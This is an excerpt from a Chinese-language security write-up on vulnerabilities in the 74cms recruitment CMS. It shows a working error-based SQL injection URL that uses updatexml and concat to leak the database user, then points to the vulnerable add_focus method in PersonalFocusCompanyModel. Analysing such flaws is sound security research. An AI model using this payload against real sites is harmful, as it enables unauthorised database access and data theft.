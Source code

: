 ```html
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a
```

![image](images/img60.png)

看源码

![image](images/img61.png)

打开文件： 74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php

方法：add_focus(

![image](images/img62.png)

## 0x06 74cms独有框架漏洞第二处
